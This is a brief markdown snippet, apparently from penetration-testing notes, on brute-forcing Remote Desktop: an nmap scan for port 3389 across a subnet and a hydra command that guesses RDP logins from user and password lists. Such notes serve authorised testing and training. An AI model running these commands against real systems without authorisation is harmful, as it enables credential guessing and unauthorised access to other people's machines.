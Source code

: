 ## Brute Force


Nmap can be used to identify hosts running the RDP service

```sh
nmap -p 3389 10.10.5.0/24
````


Hydra can be used to attempt to brute force the RDP service on identified hosts

```sh
hydra -L users.txt -P pass.txt rdp://IPADDR
````